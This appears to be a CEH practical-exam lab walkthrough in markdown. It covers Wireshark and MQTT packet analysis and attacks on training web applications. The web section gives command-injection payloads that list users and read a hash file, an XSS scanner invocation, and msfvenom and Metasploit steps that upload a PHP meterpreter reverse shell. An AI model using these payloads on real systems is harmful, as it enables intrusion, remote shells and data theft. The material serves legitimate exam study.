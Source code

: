 - Identify the severity level of the attack. 
    1. Open file in Wireshark
    2. Open `Statistics -> Conversations` and see the packet count in IPv4.
    3. Open `Analyze -> Expert Information` and see Warning message.

- Analyze the packet and find the alert message sent to the sensor. 
    1. Open the file in wireshark
    2. Filter with `mqtt` and search for any `Publish Message`
    3. Get the Message from `MQ Telementary Transport Protocol Section` 
    4. Check the value of it in hexamdecimal table


# Web Application

- Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.
    1. Change the id parameter to 1003.

- Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. 
    1. Download from `https://github.com/pwn0sec/PwnXSS`
    2. `python3 pwnxss.py -u http://cehorg.com`

- Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine.
    1. Use `| net user`

- The file is located in the directory mentioned below.Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt 
    1. Write this payload (type command is used to view the file)
        - `127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt`

- Analyze the packet and find the topic of the message sent to the sensor.
    1. Open the file in wireshark
    2. Filter with `mqtt` and search for any `Publish Message`

- Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine.
    1. Go to command injection tab
    2. Write this payload 
        - `127.0.0.1 && net user`

- Perform vulnerability research and exploit the web application training.cehorg.com, available at 192.168.0.64. Locate the Flag.txt file and enter its content as the answer.
    1. Scan the target with `Zapp` to find the vulnerability. Then exploit it. It can be file upload/ File inclusion vulnerability on DVWA.
    2. msfconsole in one tab next in new tab
    3. `msfvenom -p php/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw >exploit.php`
    4. >`use exploit/multi/handler or use 30`
    5. >`set payload php/meterpreter/reverse_tcp`
    6. `Set LHOST ipadd`
    7. Upload a file you created as exploit.php
    8. Open terminal and type run once you get url type url in brower you get meterpreter session then type ls get the files
        